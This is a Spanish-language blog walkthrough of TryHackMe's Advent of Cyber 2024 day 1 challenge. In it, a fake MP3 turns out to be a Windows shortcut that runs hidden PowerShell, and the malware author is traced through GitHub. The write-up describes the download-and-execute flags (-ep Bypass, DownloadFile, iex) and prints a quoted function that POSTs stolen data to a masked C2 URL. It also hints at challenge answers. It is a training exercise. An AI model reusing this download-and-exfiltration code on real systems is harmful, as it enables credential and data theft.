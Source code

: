 ```yaml
---
title: 'AoC 2024: Día 1 - Analizando archivos sospechosos 🔍'
description: 'Resolvemos el reto del día 1 en el Advent of Cyber 2024 organizado por TryHackMe.'
image: '/images/blog/advent-of-cyber-2024/thumbnails/day1.png'
date: '2024-12-01'
author: 'xhetic'
tag: ['TryHackMe', 'Principiante', 'OPSEC', 'Advent of Cyber']
category: 'Writeups'
featured: true
published: true
---
```


Bienvenidos al primer día del **Calendario de Adviento de Ciberseguridad 2024** de [TryHackMe](https://tryhackme.com/). Hoy nos enfrentamos a un reto que combina investigación digital y análisis de archivos sospechosos. ¿Listos para descubrir qué se oculta detrás del nombre "Glitch"? Vamos a resolverlo juntos. ¡Manos a la obra!

Room: [Advent of Cyber 2024](https://tryhackme.com/r/room/adventofcyber2024)

## 🕵️ Historia: Una amenaza oculta

**McSkidy** ha detectado una actividad sospechosa relacionada con una web que promete convertir vídeos de YouTube a MP3. Aunque parece inofensiva, hay señales de alerta que nos invitan a investigar más a fondo. Nuestra misión es descubrir qué hay detrás de esta fachada.

### 🎯 Objetivos de aprendizaje

1. Identificar archivos maliciosos vinculados a enlaces sospechosos.
2. Entender los principios de **OPSEC** y errores comunes.
3. Aprender a rastrear y atribuir identidades digitales.

---

## 🔗 Investigación del sitio web

Primero, accede al laboratorio desde tu **AttackBox**. Usa la IP asignada para abrir el sitio en el navegador. A simple vista, parece un sitio legítimo con funcionalidades prometedoras, pero no te dejes engañar.

![Sitio web](/images/blog/advent-of-cyber-2024/day1-img1.png)

### 🚩 Riesgos comunes en sitios de conversión YouTube a MP3

- **Malvertising**: Publicidad maliciosa que explota vulnerabilidades.
- **Phishing**: Trampas para obtener información sensible.
- **Malware embebido**: Archivos contaminados con software malicioso.

Nosotros investigaremos más allá. Para ello, introduce un enlace de YouTube (por ejemplo, [este clásico](https://www.youtube.com/watch?v=dQw4w9WgXcQ)) y haz clic en "Convertir".

![Sitio web](/images/blog/advent-of-cyber-2024/day1-img2.png)

---

## 🗂️ Analizando los archivos descargados

Extrae el contenido del archivo `download.zip`. Encontrarás dos archivos: `song.mp3` y `somg.mp3`. Algo no cuadra con este segundo archivo...

### 📋 Paso 1: Verificando los archivos

Abre la terminal y usa el comando `file` para analizar ambos:

```bash
file song.mp3
```

Y veremos esta respuesta

```bash
song.mp3: Audio file with ID3 version 2.3.0,
contains: MPEG ADTS, layer III, v1, 192 kbps, 44.1 kHz, Stereo
```

Este archivo parece normal. Ahora probemos con el segundo:

```bash
file somg.mp3
```

Y la respuesta obtenida es

```bash
somg.mp3: MS Windows shortcut, Item id list present, Points to a file or directory, Has Relative path, Has Working directory, Has command line arguments, Archive,
ctime=Sat Sep 15 07:14:14 2018, mtime=Sat Sep 15 07:14:14 2018, atime=Sat Sep 15 07:14:14 2018, length=448000, window=hide
```

**🧐 Sorpresa**: ¡Es un archivo **.lnk** (acceso directo) disfrazado de MP3!

---

## 🔍 Inspección del archivo .lnk

Para investigar más a fondo, ejecuta `exiftool`:

```bash
exiftool somg.mp3
```

El resultado revela un comando **PowerShell** oculto que descarga y ejecuta un script malicioso (`IS.ps1`) desde un servidor remoto.

- **-ep Bypass -nop**: Evita restricciones de seguridad.
- **DownloadFile**: Utiliza este método para descargar el script [IS.ps1](https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1)
- **iex**: Ejecuta el script tras descargarlo.

---

## 🕵️‍♂️ Rastreando al atacante

Si analizamos por encima el script **IS.ps1** contiene la firma: **"Created by the one and only M.M."**. Vamos a buscar esta cadena en **GitHub** para ver si encontramos pistas sobre el creador.

```bash
"Created by the one and only M.M."
```

Accede al [resultado de búsqueda en GitHub](https://github.com/Bloatware-WarevilleTHM/CryptoWallet-Search/issues/7). Analiza los proyectos relacionados para obtener información sobre el atacante.

---

## 🧩 Preguntas del Reto (Flags)

Para completar este primer desafío del calendario de adviento de TryHackMe, tendrás que responder las siguientes preguntas. A continuación, te explico cómo puedes encontrar cada respuesta sin dar directamente las soluciones.

#### 1️⃣ **¿Quién es el autor de la canción (`song.mp3`)?**

💡 **Pista**: Ejecuta `exiftool song.mp3` en tu terminal. La respuesta estará en el campo `Artist`.

```cmd
T**** R******
```

#### 2️⃣ **¿Cuál es la URL del servidor C2 al que el script malicioso envía la información robada?**

💡 **Pista**: La respuesta se consigue analizando la funcion `Send-InfoToC2Server` en el script [IS.ps1](https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1).

```bash
# Function to send the stolen info to a C2 server
function Send-InfoToC2Server {
    $c2Url = "****://*********.***/****"
    $data = Get-Content -Path $infoFilePath -Raw

    # Using Invoke-WebRequest to send data to the C2 server
    Invoke-WebRequest -Uri $c2Url -Method Post -Body $data
}
```

#### 3️⃣ **¿Quién es M.M?**

💡 **Pista**: Busca el [repositorio](https://github.com/JoshuaFerando/Mayor-Malware) coincidente con la firma **"Created by the one and only M.M."** en GitHub usando la barra de búsqueda.

```bash
🦹‍♂️ Hi, I’m M.M, also known as M**** M******. I run things in Wareville Town.
```

#### 4️⃣ **¿Cuántos commits tiene el repositorio donde se reportó el problema?**

💡 **Pista**: Una vez encuentrado el [repositorio del script donde la incidencia se produjo](https://github.com/Bloatware-WarevilleTHM/CryptoWallet-Search) , dirígete a la pestaña **"Commits"**. Allí podrás ver el número exacto de commits realizados.

```bash
* Commits
```

---

## 📝 Conclusión

Este ejercicio nos ha permitido desentrañar cómo un simple archivo puede convertirse en una amenaza seria. Hemos practicado análisis de archivos, investigación OSINT y rastreo de identidades digitales. ¿Has descubierto quién es "Glitch"? ¡Comparte tus resultados en los comentarios!

---

**⚠️ Nota**: Recuerda que este laboratorio es educativo. No intentes ejecutar estos comandos en entornos reales sin las precauciones adecuadas.
